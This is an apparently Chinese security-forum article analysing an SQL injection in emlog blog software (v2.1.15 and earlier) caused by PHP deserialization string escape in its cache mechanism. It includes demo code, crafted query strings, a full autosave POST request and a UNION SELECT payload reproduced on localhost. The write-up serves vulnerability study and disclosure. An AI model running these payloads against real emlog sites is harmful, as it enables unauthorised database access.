# 奇安信攻防社区-由php反序列化字符串逃逸造成的SQL注入漏洞分析

### 由php反序列化字符串逃逸造成的SQL注入漏洞分析

此篇文章针对的emlog轻量级博客及CMS建站系统存在反序列化字符逃逸＋sql注入漏洞，进一步了解学习php反序列化的字符逃逸问题。

## 前言：

此篇文章针对的emlog轻量级博客及CMS建站系统存在反序列化字符逃逸＋sql注入漏洞，进一步了解学习php反序列化的字符逃逸问题。

## PHP反序列化特性：

在PHP中，序列化是指将数据结构或对象转换为字符串的过程，以便于存储或传输。序列化后的字符串可以通过反序列化操作还原成原始的数据结构或对象。

1、 PHP在反序列化时，底层代码是以 ; 作为字段的分隔，以 } 作为结尾(字符串除外)，并且是根据长度判断内容的，同时反序列化的过程中必须严格按照序列化规则才能成功实现反序列化。

2、 PHP反序列化长度不对应时会报错。当序列化字符串属性的长度不够时，会往后走，直到长度相等为止；在反序列化以后多余的大括号}以外的字符串就会被抛弃。

3、 可以反序列化类中不存在的元素

## PHP反序列化字符串增逃逸与减逃逸基础知识：

1、对于PHP的反序列化字符串键值的解释，通常遵循一下格式：

键和值之间使用冒号分隔。

键和值都用双引号包裹

序列化字符串以a:开头，表示数组，后面是数组的长度。

对象的序列化字符以O:开头，表示对象，后面是对象的类名和属性

Eg: a:3:{s:5:"fruit";s:6:"banana";s:4:"veggie";s:5:"carrot";s:3:"meat";s:4:"beef";}

上述例子中，a:3表示数组有3个元素，然后依次是"fruit" => "banana", "veggie" => "carrot", "meat" => "beef"。

2、PHP反序列化的字符串逃逸也就是构造语句闭合字符串的过程。

字符串逃逸一共分有两种情况，情况一：过滤后字符串变多，情况二：过滤后字符变少。

**字符增逃逸：**

源代码如下：

```php
<?php

function filter($string){
  $filter = '/p/i';
  return preg_replace($filter,'WW',$string);
}
$username = isset($_GET['username']) ? $_GET['username'] : 'purplet';
$age = isset($_GET['age']) ? $_GET['age'] : "10";
$user = array($username, $age);

var_dump(serialize($user));
echo "";
$r = filter(serialize($user));
var_dump($r);
var_dump(unserialize($r));
?>
```





可以看到输入p会被替换为ww，即输入一个字符会变成两个字符，逃逸了一个字符，此时构造修改age的语句：";i:1;s:2:"20";}，这里需要逃逸的是16个字符，所以在username处构造的语句如下：?username=pppppppppppppppp";i:1;s:2:"20";}&age=1，传入等长的字符。


如果这里逃逸的字符是两个：输入一个p替换为www，修改age=2020的代码此时为";i:1;s:2:"2020";}，代码长度为18，那么构造的username应该为：?username=ppppppppp";i:1;s:4:"2020";}&age=1，以此类推。



**字符减逃逸：**

代码如下：

```php
<?php

function filter($string){
  $filter = '/pp/i';
  return preg_replace($filter,'W',$string);
}
// 检查是否收到 GET 请求参数
if(isset($_GET['username']) && isset($_GET['age'])) {
  $username = $_GET['username'];
  $age = $_GET['age'];
} else {
  $username = 'ppurlet';
  $age = '10';
}

$user = array($username, $age);
var_dump(serialize($user));
echo "";
$r = filter(serialize($user));
var_dump($r);
var_dump(unserialize($r));
?>
```



可以看到输入pp会被替换为w，按照序列化的特性，此时仍然要读7个字符，会吞噬掉一个“到;结束。此时数组第二个元素运行代码为;i:1;s:2:”10”;}。此时可以在username处传递构造的过滤字符，age处传递逃逸代码，利用逃逸使age修改为我们想修改的内容。

任意构造看下运行结果：

?username=pppppp&age=1";i:1;s:2:"20";}



要想修改age为20，需要吞噬10个字符，Demo中每两个p变为1个W，相当于逃逸1位。尝试构造name值：

?username=pppppppppppppppppppppppppp&age=1";i:1;s:2:"20";}


逃逸成功，输出age值为20。

### 漏洞环境搭建：

漏洞影响版本：v.2.1.15及更早版本

下载源码：[https://github.com/emlog/emlog/releases](https://github.com/emlog/emlog/releases)

设置数据库后开始搭建：


设置好后登录。



至此环境搭建完成。

### 漏洞复现：

1、注册账户并登录。

2、文章-发表文章-新建两篇文章保存至草稿箱




这里在新建两篇文章的时候，抓包在响应包中可以看到对应的文章id，分别是1，2。


新建文章后分别发送poc：

先修改id为2的blog，设置alias=";s:93:"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#";s:1:"x：

```php
POST /emlog/admin/article_save.php?action=autosave HTTP/1.1
Host: localhost
Content-Length: 156
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: localhost
Referer: http://localhost/emlog/admin/article.php?action=write
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=7grsstsv9fpp445046hr5qg91b; EM_AUTHCOOKIE_2VFlOu2HqXVBqJserIAh2tEXKh3zj5lf=111113%40qq.com%7C0%7C9cd3b0393151a659948c6af2cccd4bd1; EM_AUTHCOOKIE_E20hbPXCTXVX1dnkOeAmbWosM5xrnclU=111111%40qq.com%7C0%7Cb6e5886576488db453b65b8387b7cf37; em_saveLastTime=1701075174154
Connection: close

logcontent=111111&logexcerpt=11111111&title=new1&alias=a";i:4;s:1:"x&postdate=2023-10-13+20:32:18&token=3a43014ba94a7ab75c5e897787da1fa757b502e8&as_logid=10
```



此时缓存文件内容如下：



再修改id为1的blog，设置alias=<?php exit;//：



此时写入缓存的内容为（需要注意i后面跟的是文章id，因为这里复现了很多次所以截图中id为17，18）：

```php
<?php exit;//a:2:{i:1;s:13:"<?php exit;//";i:2;s:109:"";s:93:"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#";s:1:"x";}
```


经过读取缓存反序列化的字符串为（<?php exit;//会被替换为空）：

```php
a:2:{i:1;s:13:"";i:2;s:109:"";s:93:"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#";s:1:"x";}
```

反序列化后执行的结果如下：

```php
";i:5;s:109:"
"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#"
```

最后通过触发缓存实现sql注入：



### 漏洞分析

Emlog的缓存机制为：将网站运行的数据以php序列化的方式写入缓存保存为php文件后，下一次读取的时候反序列化文件后读取保存的缓存。

写入读取缓存部分代码如下：

cacheWrite()方法用于将缓存数据写入文件。先构建缓存文件路径，写入的时候会在缓存数据前面加上代码：<?php exit;//，用于防止直接访问缓存文件。写入缓存文件后会调用全局变量 $this->{$cacheName . '\_cache'}，清空对应的缓存变量。等下一次再写入缓存时会进行堆叠，并将写入的缓存以数组的形式按照顺序排列。


readCache()方法用于从缓存文件中读取缓存数据。在读取缓存文件中的数据时先将其反序列化为数组形式，将注释：“<?php exit;//”替换为空。

因此在读取缓存的时候攻击者可以构造序列化的变量内容为：`<?php exit;//`，在读取缓存时，将会导致反序列化时的字符串逃逸，构成反序列化漏洞。


跟进代码看看哪里调用了cacheWrite()方法。跟进发现mc\_logalias()，此方法用于生成和缓存文章的别名数据。函数serialize()将写入的数组序列化为字符串后写入缓存，缓存标识为：logalias。结合写缓存代码可知此时缓存文件的路径为：emlog根目录/content/cache/logalias.php



这里将从数据库中查到的别名alias存到数组中，之后将该数组序列化后缓存到文件，如果数据库中的别名是我们可控的，那么这里将可以使用上面的方法来进行反序列化攻击。  
在admin/article\_save.php通过新建blog或者更新blog的方式，来将alias插入数据库中关键代码为：





继续跟进代码找到方法updateArticleCache()，可以看到此方法用于更新Logalias的缓存。


在include/controller/log\_controller.php的displayContent函数中，alias缓存数据会被代入sql语句中进行文章内容查询：



上述代码内的 $logalias\_cache作用为读取缓存数据并放入sql语句中，从该代码可以看出，params\[1\]作为alias传入的参数是可控的，当params\[1\]的值不为post或数字时，会根据别名来获取文章内容，从缓存中读取别名缓存logalias\_cache，最后代码调用getOneLogForHome方法根据logid从数据库中获取文章内容，并将结果赋值给logData,因此造成了sql注入。

### 漏洞总结：

1、根据emlog的缓存机制，写入的缓存文件content/cache/logalias.php的内容会被先添加<?php exit;//如下：

```php
<?php exit;//a:2:{i:4;s:13:"<?php exit;//";i:5;s:109:"";s:93:"0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#";s:1:"x";}
```

在读取缓存的时候会将写入的数组字符串进行反序列化，反序列化中会将<?php exit;//替换为空，由此造成了字符逃逸。

2、通过读取缓存获得反序列化后的字符串，并将此字符串的值代入查询文章的sql语句中：

```php
0 union select 1,user(),'1','','','','',1,-1,'blog',1,1,0,'n','n','n','y','y','','','','',''#
```

3、触发payload

触发缓存实现sql注入。

**结尾：**

因这里主要想介绍php反序列化逃逸问题，所以注入部分没有深入分析，如有想了解的师傅可以参考\[Dar1in9s \](< [https://gist.github.com/Dar1in9s/e3db6b04daacb68633a97581bbd5921b>)师傅的分析](https://gist.github.com/Dar1in9s/e3db6b04daacb68633a97581bbd5921b)。
